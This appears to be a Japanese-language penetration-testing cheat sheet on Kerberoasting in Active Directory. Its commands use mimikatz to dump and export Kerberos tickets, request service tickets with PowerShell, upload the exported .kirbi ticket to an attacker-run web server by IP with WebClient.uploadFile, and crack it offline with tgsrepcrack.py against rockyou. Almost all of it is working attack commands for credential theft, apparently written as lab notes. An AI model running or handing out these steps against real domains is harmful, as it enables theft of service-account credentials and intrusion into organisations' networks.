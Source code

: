 ## Active Directory Authentication

[toc]

### 認証情報の抽出(mimikatz)

[mimikatz.md](./../Tools/mimikatz.md)

### チケットの抽出(mimikatz)

```cmd
mimikatz # sekurlsa::tickets
```

### サービスチケットの要求

```powershell
PS C:\Users\Public> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\Public> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/ExchangeService.xor.com'
```

### 現在のユーザにキャッシュされたkerberosチケットを表示

```cmd
klist
```

### サービスチケットのダウンロード

```cmd
mimikatz # privilege::debug
mimikatz # kerberos::list /export
```

### サービスチケットのクラック

サービスアカウントのNTLMやパスワードの取得ができる

チケットの配送(apacheを立ち上げておく）

```
powershell (New-Object System.Net.WebClient).uploadFile('http://192.168.45.187/upload.php', '4-40a10000-xor-app59$@XOR-APP59$-XOR.COM.kirbi')
```

```bash
ls /var/www/uploads/                                  
'4-40a10000-xor-app59$@XOR-APP59$-XOR.COM.kirbi'
```

#### kerberostを利用したクラック（遅いのでJohn the ripperのがいい）

```bash
python /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt 4-40a10000-xor-app59\$@XOR-APP59\$-XOR.COM.kirbi
```
